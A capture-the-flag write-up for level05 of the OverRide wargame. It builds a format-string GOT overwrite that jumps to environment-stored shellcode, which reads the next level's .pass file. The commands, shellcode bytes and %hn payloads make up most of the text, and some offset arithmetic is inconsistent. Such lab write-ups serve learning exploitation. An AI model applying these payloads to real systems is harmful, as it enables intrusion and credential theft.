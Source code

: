 # Level05

## Reconnaissance

We have no security enabled.

```shell
level05@OverRide:~$ ltrace ./level05 
__libc_start_main(0x8048444, 1, -10540, 0x8048520, 0x8048590 <unfinished ...>
fgets(AAAA
"AAAA\n", 100, 0xf7fcfac0)                                             = 0xffffd5c8
printf("aaaa\n"aaaa
)                                                             = 5
exit(0 <unfinished ...>
+++ exited (status 0) +++
```

We have a format string vulnerability and the binary is dynamically linked so we can probably overwrite the GOT table for a shell code.
After analyse of the binary, we notice that the string we pass to `fgets` is modified from Uppercase to Lowercase.

## Exploit

Get the address to overwrite in the GOT table.
Lets overwrite exit: `objdump -R level05` => `0x080497e0`

We get the position:
```shell
level05@OverRide:~$ ./level05 
aaaa %10$x
aaaa 61616161
```
Lets put our shell code in the env:
We put the shellcode in the env (`0xffffd7ad`): `export SHELLCODE=$(python -c 'print 100 * "\x90" + "\x31\xc0\x50\x68\x70\x61\x73\x73\x68\x30\x36\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x31\xc9\x31\xd2\x89\xe3\x6a\x05\x58\xcd\x80\x83\xec\x29\x89\xc3\x89\xe1\x6a\x29\x5a\x6a\x03\x58\xcd\x80\x6a\x01\x5b\x6a\x04\x58\xcd\x80"')`

`0xffffd7ad` = `4294956973`

Payload => `python -c 'print "\xe0\x97\x04\x08" + "%4294956999d" + "%10$n"'`

Not working because string too long for printf to be printed.
Lets try to modify the address in two times. We gonna use `%hn` which do like `%n` but only for the first two bytes

`0xffffd7ad` + `48` (to arrive in NOP) = `0xffffd7dd`:
- `0xd7ad` => `55261` + `8` (two addresses printed before) = `55253`
- `0xffff` => `65535` - `55261` = `10274`

Payload => `python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55253d" + "%10$hn" + "%10274d" + "%11$hn"'`